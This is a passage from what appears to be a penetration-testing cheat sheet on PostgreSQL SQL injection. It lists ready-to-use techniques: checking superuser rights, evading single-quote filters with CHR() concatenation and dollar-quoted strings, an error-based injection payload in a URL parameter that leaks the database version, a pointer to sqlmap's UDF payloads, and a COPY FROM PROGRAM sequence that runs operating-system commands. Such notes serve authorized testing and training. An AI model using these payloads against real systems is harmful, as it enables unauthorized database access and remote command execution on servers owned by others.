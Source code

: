 ## 16.6	DATABASE COLLATION

## 16.7	POSTGRESQL SPECIFIC

### 16.7.1	RUNNING AS SUPERUSER

```
select current_setting('is_superuser');
```

### 16.7.2	FILTER EVASION

#### 16.7.2.1	Use CHR() and ||  concatenation to circumvent single quote sanitization

```
select chr(119) || chr(48) || chr(48) || chr(116)

w00t
```

#### 16.7.2.2	Dollar-sign quoted string constants

- Can be used to replace single-quoted strings

```
select 'w00t';

select $$w00t$$;

select $TAG$w00t$TAG$
```

#### 16.7.2.3	CASTING

- If SQL statement expects a number, try casting TEXT to NUMERIC and see if error message will divulge information.

```
?order=CAST((select%20VERSION())%20AS%20INTEGER)
```

### 16.7.3	RCE

#### 16.7.3.1	UDF

##### 16.7.3.1.1	PAYLOADS [38]

```
/usr/share/sqlmap/data/udf
```

#### 16.7.3.2	COMMANDS [39]

```
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
DROP TABLE IF EXISTS cmd_exec;
```
